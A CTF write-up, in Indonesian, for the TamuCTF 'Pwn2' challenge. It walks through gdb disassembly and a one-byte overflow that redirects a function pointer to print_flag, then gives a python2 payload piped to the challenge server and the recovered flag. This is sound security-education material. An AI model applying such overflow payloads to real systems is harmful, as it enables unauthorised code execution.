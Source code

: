# __TamuCTF__
## _Pwn2_

## Information
**Category:** | **Points**
pwn | 356

**Description**

> nc pwn.tamuctf.com 4322
> Difficulty: easy
> [pwn2](./pwn2)

### Pwn2
#### File
```
pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

#### Run
```
[l0l@l0l Pwn2]$ ./pwn2
ch function would you like to call?
aaaaa
```

#### Solve
Langsung coba buka di gdb. Ada beberapa fungsi yang kelihatannya menarik.
```
0x000006ad  two
0x000006d8  print_flag
0x00000754  one
0x0000077f  select_func
0x000007dc  main
```
Pada fungsi main, terdapat vuln buffer overflow. Tapi setelah dicek ternyata kita tidak dapat melakukan return ke fungsi lain karena programnya crash :(

Selain itu juga ada proteksi NX, PIE, dan RELRO.
```
   0x5655581a <+62>:    call   0x56555500 <puts@plt>
   0x5655581f <+67>:    add    esp,0x10
   0x56555822 <+70>:    sub    esp,0xc
   0x56555825 <+73>:    lea    eax,[ebp-0x27]
   0x56555828 <+76>:    push   eax
   0x56555829 <+77>:    call   0x565554e0 <gets@plt>
   0x5655582e <+82>:    add    esp,0x10
   0x56555831 <+85>:    sub    esp,0xc
   0x56555834 <+88>:    lea    eax,[ebp-0x27]
   0x56555837 <+91>:    push   eax
   0x56555838 <+92>:    call   0x5655577f <select_func>
```
Namun setelah itu fungsi main memanggil fungsi `select_func` dengan argumen input kita.
Coba lihat hasil disassembly fungsi `select_func`.

```
   0x5655578b <+12>:    add    ebx,0x182d
   0x56555791 <+18>:    lea    eax,[ebx-0x190b]
   0x56555797 <+24>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655579a <+27>:    sub    esp,0x4
   0x5655579d <+30>:    push   0x1f
   0x5655579f <+32>:    push   DWORD PTR [ebp+0x8]
   0x565557a2 <+35>:    lea    eax,[ebp-0x2a]
   0x565557a5 <+38>:    push   eax
   0x565557a6 <+39>:    call   0x56555550 <strncpy@plt
   0x565557ab <+44>:    add    esp,0x10
   0x565557ae <+47>:    sub    esp,0x8
   0x565557b1 <+50>:    lea    eax,[ebx-0x1675]
   0x565557b7 <+56>:    push   eax
   0x565557b8 <+57>:    lea    eax,[ebp-0x2a]
   0x565557bb <+60>:    push   eax
   0x565557bc <+61>:    call   0x565554d0 <strcmp@plt>
   0x565557c1 <+66>:    add    esp,0x10
   0x565557c4 <+69>:    test   eax,eax
   0x565557c6 <+71>:    jne    0x565557d1 <select_func
   0x565557c8 <+73>:    lea    eax,[ebx-0x1864]
   0x565557ce <+79>:    mov    DWORD PTR [ebp-0xc],eax
   0x565557d1 <+82>:    mov    eax,DWORD PTR [ebp-0xc]
   0x565557d4 <+85>:    call   eax
```

Terlihat input kita dicopy sebanyak 0x1f bytes lalu dibandingkan dengan `$ebx-0x1675`. Coba lihat isinya :
```
gdb-peda$ x $ebx-0x1675
0x56555943:     "one"
```

Jika sama dengan "one" maka program akan memanggil $ebx-0x1864:
```
gdb-peda$ x $ebx-0x1864
0x56555754 <one>:       "U\211\345S\203\354\004\350", <incomplete sequence \357>
```
Disini terdapat vuln lain yaitu one-byte overflow, karena jarak antara `$ebp-0x2c` dengan `$ebp-0xc` adalah 30 bytes. Berarti kita dapat melakukan overwrite 1 byte `$ebp-0xc` (yang nantinya akan dipanggil). Kita dapat mengisinya dengan byte terakhir dari fungsi `print_flag`.

```
gdb-peda$ x print_flag
0x565556d8 <print_flag>:
```

#### Payload
```
python2 -c "print 'A'*30+'\xd8'" | nc pwn.tamuctf.com 4322
```

#### Result
```
[l0l@l0l Pwn2]$ python2 -c "print 'A'*30+'\xd8'" | nc pwn.tamuctf.com 4322

Which function would you like to call?
This function is still under development.
gigem{4ll_17_74k35_15_0n3}
```

#### Flag
gigem{4ll_17_74k35_15_0n3}
